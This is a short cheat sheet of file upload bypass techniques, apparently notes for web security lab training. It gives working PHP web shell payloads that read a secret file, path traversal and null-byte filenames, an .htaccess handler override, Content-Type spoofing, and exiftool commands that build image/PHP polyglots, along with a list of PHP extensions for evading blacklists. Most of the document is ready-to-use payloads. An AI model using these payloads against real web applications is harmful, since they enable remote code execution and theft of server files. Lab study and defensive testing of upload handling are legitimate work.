 _____

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

> File upload vulnerabilities bypass techniques:

1. Upload the file name and include obfuscated path traversal `..%2fexploit.php` and retrieve the content `GET /files/avatars/..%2fexploit.php`.
2. Upload a file named, `exploit.php%00.jpg` with trailing null byte character and get the file execution at `/files/avatars/exploit.php`.
3. Create **polygot** using valid image file, by running the command in bash terminal: `exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" ./stickman.png -o polyglot2023.php`. Once polygot is uploaded, view the extracted data by issuing a GET request to the uploaded path `/files/avatars/polyglot.php` , and search the response content for the phrase `START` to obtain the sensitive data.
4. Upload two different files. First upload `.htaccess` with Content-Type: `text/plain`, and the file data value set to `AddType application/x-httpd-php .l33t`. This will allow the upload and execute of second file upload named, `exploit.l33t` with extension `l33t`.
5. MIME type `image/jpeg` or `image/png` is only allowed. Bypass the filter by specifying `Content-Type` to value of `image/jpeg` and then uploading `exploit.php` file.
6. If target allow [Remote File Include](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study?tab=readme-ov-file#remote-file-inclusion) (RFI), upload from remote URL, then host and exploit file with the following GIF magic bytes: `GIF89a; <?php echo file_get_contents('/home/carlos/secret'); ?>`. The file name on exploit server could read `image.php%00.gif`.
7. Double file extension bypass filter `exploit.csv.php`.

# Web shell upload via Content-Type restriction bypass

Content-Type: image/jpeg

# Web shell upload via path traversal

filename="..%2fshell.php"

GET /files/avatars/../shell.php

# Web shell upload via extension blacklist bypass

Defaults php extensions
```
.php
.php3
.php4
.php5
.php7
.pht
.phps
.phar
.phpt
.pgif
.phtml
.phtm
.inc
```

# Web shell upload via obfuscated file extension

filename="shell.php%00.jpg"

# Remote code execution via polyglot web shell upload

```bash
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" shell.jpg -o shell.php
```


